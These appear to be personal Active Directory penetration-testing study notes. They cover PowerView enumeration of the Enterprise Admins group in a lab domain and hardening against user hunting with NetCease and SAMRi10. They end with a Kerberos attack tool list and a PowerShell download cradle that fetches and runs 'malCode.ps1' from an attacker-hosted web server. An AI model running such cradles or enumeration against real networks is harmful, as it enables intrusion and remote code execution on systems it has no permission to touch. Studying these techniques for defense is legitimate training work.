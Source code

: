 -------------

More Important User Enumeartion

To enumerate members of the Enterprise Admins group:
PS C:\AD\Tools> `Get-NetGroupMember -GroupName "Enterprise Admins"`
Since, this is not a root domain, the above command will return nothing. We need to query the root domain as Enterprise Admins group is present only in the root of a forest.
PS C:\AD\Tools> `Get-NetGroupMember -GroupName "Enterprise Admins" –Domain moneycorp.local`
_______________________________________________________

Defending Against Active Directory Enumeration

- Most of the enumeration mixes really well with the normal traffic to the DC.  (Cannot be Protected because it's normal behaivour)
- Hardening can be done on the DC (or other machines) to contain the information provided by the queried machine.
- However we can defend against one of the most lethal enumeration techniques: user hunting.
- Netcease is a script which changes permissions on the NetSessionEnum method by removing permission for Authenticated Users group.
- This fails many of the attacker's session enumeration and hence user hunting capabilities. .\NetCease.ps1 
- Another interesting script from the same author is SAMRi10 which hardens Windows 10 and Server 2016 against enumeration which uses SAMR protocol (like net.exe)
- https://gallery.technet.microsoft.com/SAMRi10-Hardening-Remote-48d94b5b
- https://gallery.technet.microsoft.com/Net-Cease-Blocking-Net-1e8dcb5b
- After Downloading NetCease.ps1 run it on the DC .\NetCease.ps1 Then restart server service by typing (Restart-Service -Name Server -Force) now no user can query Get-NetSession
- To disable NetCease type (.\NetCease.ps1 -Revert) Then restart server service by typing (Restart-Service -Name Server -Force)
---

Tools :
/usr/share/doc/python3-impacket/examples/GetNPUsers.py

rubeus.exe

k> kerbrute


at `/var/www/html` we run `service apache2 start` to make kali ip like website 
then use :
``` Powershell
iex (new-Object Net.WebClient).DownloadString('https://192.168.152.12/malCode.ps1')
```
